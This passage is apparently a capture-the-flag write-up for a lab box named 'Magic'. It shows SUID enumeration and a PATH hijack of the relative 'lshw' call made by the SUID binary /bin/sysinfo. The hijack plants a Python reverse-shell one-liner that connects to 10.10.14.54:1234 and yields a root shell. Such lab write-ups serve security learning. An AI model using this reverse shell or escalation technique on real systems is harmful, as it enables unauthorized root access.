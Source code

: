 - suid enum: `/bin/sysinfo` abnormal binary

```console
theseus@magic:/tmp$ find / -perm -u=s -type f 2>/dev/null -ls
    39884    376 -rwsr-xr--   1 root     dip        382696 Feb 11  2020 /usr/sbin/pppd
    30836     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
    30894     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
    30209     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
    30468     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
    23967    148 -rwsr-xr-x   1 root     root       149080 Jan 19  2021 /usr/bin/sudo
    31000     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
    30211     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
    31393     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
    30133     24 -rwsr-xr-x   1 root     root        22528 Jun 28  2019 /usr/bin/arping
    24042     12 -rwsr-xr-x   1 root     root        10312 Dec  9  2019 /usr/bin/vmware-user-suid-wrapper
    56997    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   131127     28 -rwsr-xr-x   1 root     root               26696 Jan  8  2020 /bin/umount
   131130     32 -rwsr-xr-x   1 root     root               30800 Aug 11  2016 /bin/fusermount
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
   131123     44 -rwsr-xr-x   1 root     root               43088 Jan  8  2020 /bin/mount
   131231     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /bin/su
   131203     64 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /bin/ping
```

- execute sysinfo to get **system's info** including hardware, disk, cpu, memory => these are all need **root privilege** => **strings** to check sysinfo binary's **operations**

```console
theseus@magic:/var/www/Magic$ strings /bin/sysinfo
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
...
```

- **sysinfo** execute some root priv commands, and lshw uses the **relative path** to execute binary file as a higher privilege
- we can change **PATH** into the current directory and **fake a binary file** lshw to trigger a root-priv reverse shell (or cp a bash file into /tmp and set it as suid, also ok; or add a new line into passwd or shadow with a new root-priv user, also ok; not test although)

```console
theseus@magic:~$ export PATH=.:$PATH
theseus@magic:~$ vi lshw
theseus@magic:~$ cat lshw
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
theseus@magic:~$ chmod +xs lshw
theseus@magic:~$ ls -l lshw
-rwsrwsr-x 1 theseus theseus 239 Jan 19 06:28 lshw
theseus@magic:~$ sysinfo
====================Hardware Info====================
```
